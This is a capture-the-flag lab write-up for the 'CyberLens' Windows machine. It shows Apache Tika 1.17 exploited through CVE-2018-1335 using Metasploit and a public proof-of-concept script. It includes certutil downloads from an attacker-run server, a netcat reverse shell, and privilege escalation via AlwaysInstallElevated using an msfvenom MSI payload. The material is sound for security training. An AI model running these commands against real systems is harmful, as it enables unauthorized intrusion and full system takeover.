

# CyberLens

## **Challenge Description**

> Welcome to the clandestine world of CyberLens, where shadows dance amidst the digital domain and metadata reveals the secrets that lie concealed within every image. As you embark on this thrilling journey, prepare to unveil the hidden matrix of information that lurks beneath the surface, for here at CyberLens, we make metadata our playground.

In this labyrinthine realm of cyber security, we have mastered the arcane arts of digital forensics and image analysis. Armed with advanced techniques and cutting-edge tools, we delve into the very fabric of digital images, peeling back layers of information to expose the unseen stories they yearn to tell.

Picture yourself as a modern-day investigator, equipped not only with technical prowess but also with a keen eye for detail. Our team of elite experts will guide you through the intricate paths of image analysis, where file structures and data patterns provide valuable insights into the origins and nature of digital artifacts.

At CyberLens, we believe that every pixel holds a story, and it is our mission to decipher those stories and extract the truth. Join us on this exciting adventure as we navigate the digital landscape and uncover the hidden narratives that await us at every turn.

Can you exploit the CyberLens web server and discover the hidden flags?
> 

```bash
10.49.168.211    cyberlens.thm
```

## Port Scan

```bash
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 126 Apache httpd 2.4.57 ((Win64))
|_http-title: CyberLens: Unveiling the Hidden Matrix
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.57 (Win64)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 126
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
|_ssl-date: 2026-09-08T03:54:16+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=CyberLens
| Issuer: commonName=CyberLens
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-07T03:46:48
| Not valid after:  2027-03-09T03:46:48
| MD5:     1bc9 4d7b 42cc fd8e 9718 31e0 3d2e 016a
| SHA-1:   62a1 1d2d 78a2 f607 ae55 b195 1ab9 3882 8f06 bb58
| SHA-256: 994c 4fe0 41ce dca8 570f 84a5 66d9 5fdf be4d 09a8 d3e2 a44a 65bf d424 4875 16f3
| -----BEGIN CERTIFICATE-----
| MIIC1jCCAb6gAwIBAgIQF1qnhiW5w4RPPQW8tnmXhDANBgkqhkiG9w0BAQsFADAU
| MRIwEAYDVQQDEwlDeWJlckxlbnMwHhcNMjYwOTA3MDM0NjQ4WhcNMjcwMzA5MDM0
| NjQ4WjAUMRIwEAYDVQQDEwlDeWJlckxlbnMwggEiMA0GCSqGSIb3DQEBAQUAA4IB
| DwAwggEKAoIBAQCyudIJMtJw3MvtGkevQ8wdcbHMT6XE1+nEu2XAzF+t1WVaswt/
| 9ySXQ201SzlXcYc1VmhNZMA36ZnIWRbQgV2Du8PdBvTygQ1LDWs54vjIUxQzV5S5
| l/PQVjp+YvP1aktrzz9EbPdJKKU9mTyXNBPrC6pEz2QlhYnL9B9LcgYmpcBLeBiD
| j3cb+zPGWY9pxuI5qzB2E6HSGGLdYDn63EPHpDLLK0LN017Xk7BOrZiNUj/fVkHd
| vrXCtM/Wz/DVkQDfEaK24Rn6to8T/XchZ23Mc1RwnUn9gtkT3pORVHCkfOf+8mk2
| WFNtWNHsJBJTNjHfIaR7o3FNWl1tuOWwr/FtAgMBAAGjJDAiMBMGA1UdJQQMMAoG
| CCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEAppPz0ag5
| FywstM8B8eiNb2HAX+K3BqcrgVE/NaLKD97upsGrK+Qe7ZEGVmQk1Rto0QdbgCFg
| 9ihHJCDyQHSUENRaENYUJ4xTdiBMlBzgrn41nIkkf2mxrLlVOBoXS1zv4w0xg3i9
| JglLL2gGAVKtbU5osn3og5jYb0kS493ZyA8veVsNgahFmKan52UuwfqdnugmGJo6
| RmkCQjLGv0/YSQV57tVib/pzkaLmKYam9FLRKyak2BuNZA/fQ1cQAu62YnSigME/
| MWURuNnDfvFxHGDR/8efZBQkT04ZSIcsYxI9+BtQCfEqZduoSpkvTiN+/0EfL0Hi
| nfhR5ubCB9hqDw==
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: CYBERLENS
|   NetBIOS_Domain_Name: CYBERLENS
|   NetBIOS_Computer_Name: CYBERLENS
|   DNS_Domain_Name: CyberLens
|   DNS_Computer_Name: CyberLens
|   Product_Version: 10.0.17763
|_  System_Time: 2026-09-08T03:54:05+00:00
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49674/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
61777/tcp open  http          syn-ack ttl 126 Jetty 8.y.z-SNAPSHOT
|_http-title: Welcome to the Apache Tika 1.17 Server
| http-methods: 
|   Supported Methods: POST GET PUT OPTIONS HEAD
|_  Potentially risky methods: PUT
|_http-cors: HEAD GET
|_http-server-header: Jetty(8.y.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows 10 1709 - 22H2 (97%), Microsoft Windows Server 2019 (94%), Microsoft Windows Server 2016 (93%), Microsoft Windows Vista SP1 (93%), Microsoft Windows 11 24H2 - 25H2 (91%), Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2022 (91%), Microsoft Windows 10 (91%), Microsoft Windows Server 2012 R2 Update 1 (91%), Microsoft Windows 10 1803 (90%)
No exact OS matches for host (test conditions non-ideal).
```

Here are some ports I will take a look:

- HTTP (80, 5985, 47001, 61777)
- SMB (139, 445)
- RPC (135, 49664-49674)

---

## SMB

SMB is very quick to verify. We can try anonymous login

```bash
└─$ smbclient -L cyberlens.thm -N
session setup failed: NT_STATUS_ACCESS_DENIED
```

It failed, anonymous login is disabled, and so does the Guest account

```bash
└─$ smbclient -L //cyberlens.thm/ -U "Guest%"
session setup failed: NT_STATUS_ACCOUNT_DISABLED
```

SMB is not the way in, so we should try other services

---

## RPC

RPC also refuses our connection

```bash
└─$ rpcinfo -p cyberlens.thm
cyberlens.thm: RPC: Remote system error - Connection refused
```

HTTP is probably the only way

---

## HTTP

Port 80 hosts the CYBERLENS page



There is an Image Extractor that extracts metadata from the given image


To test, we can upload an image. I first remove the excessive metadata

```bash
└─$ exiftool -all= images.jpeg 
    1 image files updated

```

Here is the metadata after the cleaning

```bash
└─$ exiftool images.jpeg
ExifTool Version Number         : 13.50
File Name                       : images.jpeg
Directory                       : .
File Size                       : 22 kB
File Modification Date/Time     : 2026:09:08 16:57:27+08:00
File Access Date/Time           : 2026:09:08 16:57:27+08:00
File Inode Change Date/Time     : 2026:09:08 16:57:27+08:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Image Width                     : 447
Image Height                    : 447
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 447x447
Megapixels                      : 0.200
```

Uploading it to the website will print the metadata

```json
{
"Component 1": "Y component: Quantization table 0, Sampling factors 2 horiz/2 vert",
"Component 2": "Cb component: Quantization table 1, Sampling factors 1 horiz/1 vert",
"Component 3": "Cr component: Quantization table 1, Sampling factors 1 horiz/1 vert",
"Compression Type": "Baseline",
"Content-Type": "image/jpeg",
"Data Precision": "8 bits",
"File Modified Date": "Tue Sep 08 08:57:43 +00:00 2026",
"File Name": "apache-tika-14976225313513150069.tmp",
"File Size": "21702 bytes",
"Image Height": "447 pixels",
"Image Width": "447 pixels",
"Number of Components": "3",
"Number of Tables": "4 Huffman tables",
"X-Parsed-By": [
"org.apache.tika.parser.DefaultParser",
"org.apache.tika.parser.jpeg.JpegParser"
],
"language": "",
"tiff:BitsPerSample": "8",
"tiff:ImageLength": "447",
"tiff:ImageWidth": "447"
}
```

We can see the `tika.parser` is used

```json
"X-Parsed-By": [
"org.apache.tika.parser.DefaultParser",
"org.apache.tika.parser.jpeg.JpegParser"
]
```

You can also upload a text file instead of an image. `org.apache.tika.parser.txt.TXTParser` is used instead

```json
{
"Content-Encoding": "ISO-8859-1",
"Content-Type": "text/plain; charset=ISO-8859-1",
"X-Parsed-By": [
"org.apache.tika.parser.DefaultParser",
"org.apache.tika.parser.txt.TXTParser"
],
"language": "et"
}
```

When we click `Get Metadata`, we can see the data is send to port 61777, another HTTP port


Navigate to port 61777, we can see it is Tika 1.17


---

## Tika Command Injection (Metrepreter)

Search tika in Searchsploit, we found that the first result should be exploitable

```bash
└─$ searchsploit Apache tika
-------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                    |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tika 1.15 - 1.17 - Header Command Injection (Metasploit)                                                                                   | windows/remote/47208.rb
Apache Tika-server < 1.18 - Command Injection                                                                                                     | windows/remote/46540.py
-------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We can find it easily in Metasploit

```bash
msf > search -type=exploit tika

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/windows/http/apache_tika_jp2_jscript         2018-04-25       excellent  Yes    Apache Tika Header Command Injection
   1  post/linux/gather/puppet                             .                normal     No     Puppet Config Gather
   2  auxiliary/scanner/http/wp_gimedia_library_file_read  .                normal     No     WordPress GI-Media Library Plugin Directory Traversal Vulnerability

```

Set the proper RHOSTS, RPORT and LHOST

```bash
msf exploit(windows/http/apache_tika_jp2_jscript) > set RHOSTS cyberlens.thm
RHOSTS => cyberlens.thm
msf exploit(windows/http/apache_tika_jp2_jscript) > set RPORT 61777
RPORT => 61777
msf exploit(windows/http/apache_tika_jp2_jscript) > set LHOST tun0
LHOST => 192.168.130.46
```

We can verify it is vulnerable

```bash
msf exploit(windows/http/apache_tika_jp2_jscript) > check
[+] 10.49.168.211:61777 - The target is vulnerable.
```

A Meterpreter shell opened as we launch the exploit

```bash
msf exploit(windows/http/apache_tika_jp2_jscript) > run
[*] Started reverse TCP handler on 192.168.130.46:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending PUT request to 10.49.168.211:61777/meta
[*] Command Stager progress -  82.46% done (7999/9701 bytes)
[*] Sending PUT request to 10.49.168.211:61777/meta
[*] Command Stager progress - 100.00% done (9701/9701 bytes)
[*] Sending stage (199238 bytes) to 10.49.168.211
[*] Meterpreter session 1 opened (192.168.130.46:4444 -> 10.49.168.211:50348) at 2026-09-08 17:28:17 +0800

meterpreter > sysinfo
Computer        : CYBERLENS
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

---

## Tika Command Injection (NC.exe)

Because there is a limited usage on Meterpreter, it is at best to have another path to achieve the same thing.

Tyler had made a [video walkthrough](https://youtu.be/eFWEwS5thu4?si=ZA5fPnFn-1PenHy0&t=801) on this.

The POC script is available in [Github](https://github.com/RhinoSecurityLabs/CVEs/blob/master/CVE-2018-1335/CVE-2018-1335.py)

To use the script, we need to provide the host, port, and the command we would like to execute

```bash
└─$ python3 CVE-2018-1335.py 
Usage: python3 CVE-2018-1335.py <host> <port> <command>
Example: python3 CVE-2018-1335.py localhost 9998 calc.exe
```

To kickstart, we can first transfer nc.exe using Cerutil in the victim machine.

> Beware of the `/` in the path
> 

```bash
└─$ python3 CVE-2018-1335.py cyberlens.thm 61777 'certutil -urlcache -f http://192.168.130.46:8000/nc.exe C:/Users/Public/nc.exe
```

In the python web server, we can see `nc.exe` is accessed 

```bash
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.49.168.211 - - [08/Sep/2026 17:38:00] "GET /nc.exe HTTP/1.1" 200 -
10.49.168.211 - - [08/Sep/2026 17:38:01] "GET /nc.exe HTTP/1.1" 200 -
10.49.168.211 - - [08/Sep/2026 17:38:02] "GET /nc.exe HTTP/1.1" 200 -
10.49.168.211 - - [08/Sep/2026 17:38:03] "GET /nc.exe HTTP/1.1" 200 -
```

Then in the victim machine, we can launch `nc.exe` with `-e cmd.exe` to launch the command prompt after connection

```bash                                                                                                                                                                                        
└─$ python3 CVE-2018-1335.py cyberlens.thm 61777 'C:/Users/Public/nc.exe 192.168.130.46 1234 -e cmd exe'                                                                              
```

In our nc listener, we can see we have successfully obtain a reverse shell

```bash
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.130.46] from (UNKNOWN) [10.49.168.211] 50491
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
cyberlens\cyberlens
```

And we can get the user flag

```powershell
C:\Users\CyberLens\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\CyberLens\Desktop

06/06/2023  07:53 PM    <DIR>          .
06/06/2023  07:53 PM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
06/06/2023  07:54 PM                25 user.txt
               3 File(s)          1,106 bytes
               2 Dir(s)  14,933,864,448 bytes free
```

---

## Privilege Escalation (AlwaysInstallElevated)

Here is the information of the Cyberlens Account

```powershell
C:\Windows\system32>whoami
whoami
cyberlens\cyberlens

C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

We can see there is no exploitable privileges. 

So we can use winPEAS to help us discover the attack path

```powershell
C:\Users\CyberLens\Desktop>certutil -urlcache -f http://192.168.130.46:8000/winPEASx64.exe winPEASx64.exe
certutil -urlcache -f http://192.168.130.46:8000/winPEASx64.exe winPEASx64.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

In the beginning, a long list of CVE is displayed, but none of it worked.

```powershell
���������͹ Windows Version Vulnerabilities (T1082,T1068)
� Product candidates: Windows Server 2019 | Windows Server 2019 (Server Core installation)
� Definitions date: 20260901
� Installed hotfixes detected: 27
� Pre-filter matches: 410, filtered by installed/superseded KBs: 328
Matched 82 known exploited vulnerabilities for this running Windows version.
Matched products: Windows Server 2019 | Windows Server 2019 (Server Core installation)
    CVE-2018-8544 KB4467708 [Critical] Remote Code Execution
    CVE-2020-1472 KB4601345 [Critical] Elevation of Privilege
    CVE-2021-1675 KB5003646 [Critical] Remote Code Execution
    CVE-2021-22947 KB5009557 [Critical] Remote Code Execution
    CVE-2021-24091 KB4601345 [Critical] Remote Code Execution
    CVE-2021-34527 KB5004947 [Critical] Remote Code Execution
    CVE-2025-47981 KB5062557 [Critical] Remote Code Execution
    CVE-2025-59287 KB5070883 [Critical] Remote Code Execution
    CVE-2018-0886 KB4551853 [Important] Remote Code Execution
    CVE-2018-8411 KB4464330 [Important] Elevation of Privilege
    CVE-2018-8423 KB4464330 [Important] Remote Code Execution
    CVE-2018-8453 KB4464330 [Important] Elevation of Privilege
    CVE-2018-8550 KB4467708 [Important] Elevation of Privilege
    CVE-2018-8584 KB4467708 [Important] Elevation of Privilege
    CVE-2019-0543 KB4480116 [Important] Elevation of Privilege
    CVE-2019-0552 KB4480116 [Important] Elevation of Privilege
    CVE-2019-0555 KB4487044 [Important] Elevation of Privilege
    CVE-2019-0570 KB4480116 [Important] Elevation of Privilege
    CVE-2019-0571 KB4480116 [Important] Elevation of Privilege
    CVE-2019-0572 KB4480116 [Important] Elevation of Privilege
```

In later, we found that AlwaysInstallElevated registry is set

```powershell
����������͹ Checking AlwaysInstallElevated (T1548.002)
�  https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

Visit the given [link]([https://hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#alwaysinstallelevated](https://hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#alwaysinstallelevated)), we found this description

> **If** these 2 registers are **enabled** (value is **0x1**), then users of any privilege can **install** (execute) `*.msi` files as NT AUTHORITY\**SYSTEM**.
> 

Then things become much simpler.

First, we can generate a reverse shell payload in MSI format

```bash
└─$ msfvenom -p windows/shell/reverse_tcp LHOST=tun0 LPORT=1235 -f msi -o exploit.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: exploit.msi
```

Then save the payload in the victim machine

```powershell
C:\Users\CyberLens\Desktop>certutil -urlcache -f http://192.168.130.46:8000/exploit.msi exploit.msi
certutil -urlcache -f http://192.168.130.46:8000/exploit.msi exploit.msi
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

And set up the `multi/handler` listener

```bash
└─$ msfconsole -q
[*] Starting persistent handler(s)...
msf > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(multi/handler) > show options

Payload options (windows/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

View the full module info with the info, or info -d command.

msf exploit(multi/handler) > set LPORT 1235
LPORT => 1235
msf exploit(multi/handler) > set LHOST tun0
LHOST => 192.168.130.46
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.130.46:1235 
```

Finally, launch the MSI in the victim machine

```powershell
C:\Users\CyberLens\Desktop>.\exploit.msi
.\exploit.msi
```

> Note: Use `msiexec /quiet /qn /i exploit.msi` to execute the MSI is better
> 

Go back to msfconsole, we can see we are now NT AUTHORITY\SYSTEM

```bash
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.130.46:1235 
[*] Sending stage (240 bytes) to 10.49.168.211
[*] Command shell session 1 opened (192.168.130.46:1235 -> 10.49.168.211:50704) at 2026-09-08 18:02:58 +0800

Shell Banner:
Microsoft Windows [Version 10.0.17763.1821]
-----
          

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

With this, we can read the `admin.txt` and conclude the room

```powershell
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Desktop

06/06/2023  07:45 PM    <DIR>          .
06/06/2023  07:45 PM    <DIR>          ..
11/27/2023  07:50 PM                24 admin.txt
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
               3 File(s)          1,105 bytes
               2 Dir(s)  14,912,475,136 bytes free
```